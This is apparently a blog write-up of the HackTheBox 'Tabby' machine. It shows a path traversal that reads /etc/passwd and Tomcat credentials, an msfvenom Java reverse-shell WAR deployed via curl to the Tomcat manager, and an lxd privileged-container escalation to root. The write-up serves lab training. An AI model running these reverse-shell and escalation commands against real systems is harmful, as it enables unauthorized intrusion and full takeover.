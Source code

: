 ```yaml
---
title: "HackTheBox - Tabby"
author: Nasrallah
description: ""
date: 2023-02-17 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, lxd, tomcat, msfvenom, curl]
img_path: /assets/img/hackthebox/machines/tabby
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Tabby](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.10.194
Host is up (0.27s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 453c341435562395d6834e26dec65bd9 (RSA)
|   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA)
|_  256 1ee7b955dd258f7256e88e65d519b08d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found three open ports, port 22 is OpenSSH, 80 is Apache http web server and 8080 is Apache Tomcat.

### Web

Let's navigate to the web page on port 80.

![](1.png)

The website is a hosting service. On the page we can see the hostname `megahosting.htb`, let's add it to /etc/hosts file.

The link on the page don't work except for News.

![](2.png)

We see news.php use parameter file to pull `statement`, let's see if we can get `/etc/passwd`.

![](3.png)

Great! The parameter is vulnerable.

We can see a user called `ash`, i tried to pull the id_rsa but couldn't, also tried to get log files but no luck.

### Tomcat

Let's move to tomcat.

![](4.png)

We see that the version of tomcat used is 9.

Tomcat stores users credentials in a file called `tomcat-users.xml`, and we see in the web page that tomcat is installed on `/usr/share/tomcat9` so i tried to get `/usr/share/tomcat9/tomcat-users.xml` and `/usr/share/tomcat9/conf/tomcat-users.xml` but no luck with that, so i installed tomcat9 on my machine and used `find` to search for the file location and found it.

```terminal
┌─[sirius@ParrotOS]─[~]
└──╼ $ find /usr -type f -name 'tomcat-users.xml' 2>/dev/null                                                                                           130 ⨯
/usr/share/tomcat9/etc/tomcat-users.xml
```

The file is at `/usr/share/tomcat9/etc/tomcat-users.xml` so let's get it.

![](5.png)

We got the credentials.


## **Foothold**

Let's login to the manager webapp at `http://megahosting.htb:8080/manager/html`

![](6.png)

We can't access the `manager-gui`, but we can use `manager-script` which is a text-based service located at `/manager/text`.

To get a reverse shell, first we need to generate a payload using `msfvenom`, upload it with curl and get the shell.

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.10.10 lport=9001 -f war -o revshell.war
```


```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/shell --upload-file revshell.war
curl http://10.10.10.194:8080/shell
```

![](7.png)

## **Privilege Escalation**

### Ash

Checking the website's file, we come across a zip file.

![](8.png)

We need a password to unzip it.

Let's download the file to our machine and crack the pass.

![](9.png)

We got the password and managed to unzip the file, but there was no useful information on the files.

Maybe we can use the password to switch to user `ash`.

![](10.png)

### root

By running `id`, we see that `ash` is part of the group lxd

```terminal
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

We can upload an alpine image to the target from this repo `git clone https://github.com/saghul/lxd-alpine-builder.git`

First we run `lxd init` and accept the defaults.


>Note: If lxd is in snap, we add that to the Path with the command export PATH=$PATH:/snap/bin


Now we import the image with the command

```bash
lxc image import ./alpine-v3.17-x86_64-20230205_1307.tar.gz --alias myimage
```

Next we run the following command to get root.

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```


```terminal
ash@tabby:~$ lxc image import ./alpine-v3.17-x86_64-20230205_1307.tar.gz --alias myimage 
ash@tabby:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
| myimage | 60f5492cef0e | no     | alpine v3.17 (20230205_13:07) | x86_64       | CONTAINER | 3.52MB | Feb 6, 2023 at 5:08pm (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
ash@tabby:~$ lxc init myimage ignite -c security.privileged=true
Creating ignite
ash@tabby:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
ash@tabby:~$ lxc start ignite
ash@tabby:~$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root/
/mnt/root/root # ls
root.txt  snap
/mnt/root/root #
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

